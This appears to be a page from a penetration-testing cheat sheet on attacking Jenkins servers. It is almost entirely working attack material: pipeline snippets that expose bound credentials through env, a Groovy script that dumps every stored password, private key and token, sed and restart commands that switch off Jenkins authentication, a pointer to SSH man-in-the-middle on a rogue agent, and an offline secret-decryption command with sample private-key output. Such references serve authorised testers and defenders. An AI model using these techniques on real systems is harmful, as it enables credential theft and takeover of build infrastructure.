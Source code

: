 # Jenkins

### Extract secrets from credential store <a href="#extract-secrets-from-credential-store" id="extract-secrets-from-credential-store"></a>

Need to **know the name and type of the secret**.

Copy

```javascript
withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'USERNAME', passwordVariable: 'PASS')]) {
    sh '''
        env #Search for USERNAME and PASS
    '''
}

withCredentials([string(credentialsId: 'flag1', variable: 'SECRET')]) {
    sh '''
        env #Search for SECRET
    '''                 
}

withCredentials([usernameColonPassword(credentialsId: 'mylogin', variable: 'USERPASS')]) {
    sh '''
        env # Search for USERPASS
    '''
}

# You can also load multiple env variables at once
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
                 string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
     sh '''
        env
    '''
}
```

**All the credential types**: [https://www.jenkins.io/doc/pipeline/steps/credentials-binding/](https://www.jenkins.io/doc/pipeline/steps/credentials-binding/)

### Abuse agent admin privilege <a href="#abuse-agent-admin-privilege" id="abuse-agent-admin-privilege"></a>

![](https://smth.s4ar.ru/\~gitbook/image?url=https%3A%2F%2F2470360045-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTPpVTpZ2AVoWJgs2n5qA%252Fuploads%252FPyBVZ0tdzM6xU9x8Kk05%252Fimage.png%3Falt%3Dmedia%26token%3D0098a704-547e-4b17-b707-9862c94effbf\&width=768\&dpr=4\&quality=100\&sign=ccdcf0\&sv=1)

You can steal credentials (not key), via create controlled jenkins agent

![](https://smth.s4ar.ru/\~gitbook/image?url=https%3A%2F%2F2470360045-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTPpVTpZ2AVoWJgs2n5qA%252Fuploads%252F9VYiwAsRzYPYRH1cISJ3%252Fimage.png%3Falt%3Dmedia%26token%3D4f1b8cbb-5fc8-40ec-bbed-5fcf0f1fceb4\&width=768\&dpr=4\&quality=100\&sign=57e97dc\&sv=1)

Configure [ssh\_mitm](https://miloserdov.org/?p=3699).

### Start job on master node <a href="#start-job-on-master-node" id="start-job-on-master-node"></a>

Copy

```javascript
pipeline {
    agent {label 'built-in'} #try add this
    environment {
        PROJECT = "sanic"
    }

    stages {
        stage ('Install_Requirements') {
            steps {
                sh 'pip -r  install requirements'
            }
        }
    }

    post { 
        always { 
            cleanWs()
        }
    }
}
```

### Dump secrets from credentials Groovy <a href="#dump-secrets-from-credentials-groovy" id="dump-secrets-from-credentials-groovy"></a>

Copy

```groovy
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
      com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
  println(c.id)
  if (c.properties.description) {
    println("   description: " + c.description)
  }
  if (c.properties.username) {
    println("   username: " + c.username)
  }
  if (c.properties.password) {
    println("   password: " + c.password)
  }
  if (c.properties.passphrase) {
    println("   passphrase: " + c.passphrase)
  }
  if (c.properties.secret) {
    println("   secret: " + c.secret)
  }
  if (c.properties.secretBytes) {
    println("    secretBytes: ")
    println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
    println("")
  }
  if (c.properties.privateKeySource) {
    println("   privateKey: " + c.getPrivateKey())
  }
  if (c.properties.apiToken) {
    println("   apiToken: " + c.apiToken)
  }
  if (c.properties.token) {
    println("   token: " + c.token)
  }
  println("")
}
```

### Create new admin user <a href="#create-new-admin-user" id="create-new-admin-user"></a>

1. Access the Jenkins config.xml file in `/var/lib/jenkins/config.xml` or `C:\Program Files (x86)\Jenkis\`
2. Search for the word `<useSecurity>true</useSecurity>`and change the word \*\*`true` \*\* to **`false`**.
   1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Restart** the **Jenkins** server: `service jenkins restart`
4. Now go to the Jenkins portal again and **Jenkins will not ask any credentials** this time. You navigate to "**Manage Jenkins**" to set the **administrator password again**.
5. **Enable** the **security** again by changing settings to `<useSecurity>true</useSecurity>` and **restart the Jenkins again**.

### **Decrypt Jenkins secrets offline** <a href="#decrypt-jenkins-secrets-offline" id="decrypt-jenkins-secrets-offline"></a>

If you have dumped the **needed passwords to decrypt the secrets**, use [**this script**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **to decrypt those secrets**. Also need `secrets/master.key` or `secrets/hudson.util.Secret`

Copy

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
